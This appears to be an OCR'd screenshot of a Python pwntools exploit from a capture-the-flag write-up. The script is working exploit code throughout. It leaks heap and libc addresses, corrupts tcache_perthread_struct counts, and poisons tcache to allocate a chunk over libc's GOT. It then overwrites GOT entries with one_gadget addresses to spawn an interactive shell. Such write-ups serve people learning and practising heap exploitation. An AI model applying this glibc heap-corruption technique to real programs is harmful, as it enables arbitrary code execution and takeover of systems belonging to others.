 ```python

# get our leak
leak = u64(p.recv(8))
print('leak = '+hex(leak))
heap = (leak<<12)-0x13000
logleak('heap base', heap)
goforward(0x80)			# move forward of 0x80 bytes to allocate a 0x80 (0x90 real) tcache chunk
goback(0x13708)			# move back ptr to reach tcache_perthread_struct->counts for 0x90 chunk size, and set the counts to 7
goforward(0x13738)		# move forward until it allocate a 0x100 (0x110 real) tcache chunk,  0x90 chunk will be freed, and will go to unsorted (as counts==7)
goback(0x128)			# move back ptr to reach unsorted address in 0x90 freed chunk

# get our libc leak
libc.address = u64(p.recv(8))-0x219c00		# calculate libc base
logbase()

onegadgets = one_gadget(libc.path, libc.address)



goback(0x13670)			# move back ptr to reach tcache_perthread_struct->counts for 0x210 (0x210 real) chunk size, and set the counts to 1
goforward(0x130)		# move ptr forward to next chunk address for chunk size of 0x210 chunks
p.send(p64(libc.address+0x219040))	# write target GOT address as next 0x210 chunk address, our target

goforward(0x13700)		# move forward until it allocate a 0x200 (0x210 real) tcache chunk,  it will be allocated in libc GOT
goback(0x140)			# move backward to reach beginning of our new chunk in libc GOT

# gadget to clear rsi,rdx and jump to strlen() via libc got
target = libc.address+0x5bf67
logleak('target', target)
# overwrite 12 GOT entries, 10 first with our one gadget
# 2 last with our gadget in libc that clears rsi and rdx, and jump to strlen (libc.GOT+0x40)
p.send(p64(onegadgets[10])*10+p64(target)*2)

# now we got shell !!!
p.sendline('id;echo "bingo!!!"')

p.interactive()
```
*nobodyisnobody still pwning...*